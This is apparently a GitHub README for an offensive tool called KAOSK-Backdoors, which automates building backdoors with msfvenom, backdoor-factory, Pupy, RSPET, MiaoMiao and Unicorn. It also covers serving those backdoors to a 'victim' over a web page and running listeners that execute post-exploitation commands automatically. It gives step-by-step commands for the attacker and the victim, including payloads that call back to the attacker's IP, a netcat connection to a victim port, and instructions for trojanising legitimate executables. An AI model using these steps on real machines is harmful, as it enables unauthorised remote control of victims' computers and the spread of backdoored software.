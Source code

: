 >=>   >=>         >>           >===>        >=>>=>   >=>   >=>
>=>  >=>         >>=>        >=>    >=>   >=>    >=> >=>  >=>
>=> >=>         >> >=>     >=>        >=>  >=>       >=> >=>
>>=>>          >=>  >=>    >=>        >=>    >=>     >>=>>
>=>  >=>      >=====>>=>   >=>        >=>       >=>  >=>  >=>
>=>   >=>    >=>      >=>    >=>     >=>  >=>    >=> >=>   >=>
>=>     >=> >=>        >=>     >===>        >=>>=>   >=>     >=>

# KAOSK-Backdoors
==========
It's a tool that automate: 
+ the installation of some Backdoor's creation programs
+ the creation of the backdoors to use in a victim machine
+ a web where you can download the backdoors created
+ the listener of the backdoors downloaded
+ the actions of the listener

## Example
Using Kali2 as the attacker with IP: 192.168.0.100
Using any machine as the victim in the same network as the attacker.

Run in Kali:
git clone https://github.com/carlospolop/KAOSK-backdoors.git
python ./install.py
python ./create_backdoors.py 192.168.0.100
python ./handler.py 192.168.0.100

In the victim machine:
Use a browser and navigate to 192.168.0.100/back and you will see the backdoors created before in the attacker
Download the backdoor that you want to use
Run the backdoor

You will have a session in the victim's machine.

If you have chose a backdoor created with msfvenom, backdoor-factory or unicorn, you will have a metasploit session in the victim. The metasploit's sessions can be configured to run post modules, meterpreter commands and shell commands in the config folder. This means that when you capture a metasploit sessions this modules and commands will run automatically.

## How to configure which post modules, meterpreter commands and shell commands to use
You just have to go to the config folder and the you will find some folders of differents OS. Go inside anyone and you will find some text documents where you can write which post modules, meterpreters commands and shell comands to use when you capture a session in a machine that uses the OS selected.

## Install
python ./install.py

## Create Backdoors
python ./create_backdoors.py <IP_attacker>

## Start handler
python ./handler.py <IP_attacker>


# To Know about the backdoors
--------------------
## Backdoors used:
+ Backdoor-factoy
+ MiaoMiao
+ Msfvenom
+ Pupy
+ RSPET
+ Unicorn

## Backdoor-factory
The backdoor-factory introduce the backdoor inside executables. If you want to corrupt a executable, you just have to download the original, move it to the correct folder inside BDF_prepared and run python ./create_backdoors.py <IP_attacker> (or python ./backdoor-factoryAuto.py <IP_attacker>)
https://github.com/secretsquirrel/the-backdoor-factory.git

## MiaoMiao
This backdoor open a port in the victims machine and the attacker connects to it. The default port is 55555
To use this backdoor you have to run:
+ Victim: Run src_backdoor > server_dist > newest_version
+ Attacker: nc IP_Victim 55555 -vv
https://github.com/marc0l92/MiaoMiao_project.git

## Msfvenom
Of course.

## Pupy
Creates differents types of backdoors and use it's own listener. It is all automated and the process followed to use these backdoors is:
Victim: Run the file create using ./pupygen.py -f lin_x64  connect --host IP_Attacker
Attacker: ./pupysh.py
https://github.com/n1nj4sec/pupy.git

## RSPET
To use this backdoor you have to run:
Victim: Run python RSPET_folder/Client/rspet_client.py <IP_Attacker>
Attacker: (This part is automated) Run Server > rspet_server.py 
https://github.com/panagiks/RSPET.git

## Unicorn
Creates differents types of backdoors and it is all automated.
Use metasploit as listener.
https://github.com/n1nj4sec/pupy.git
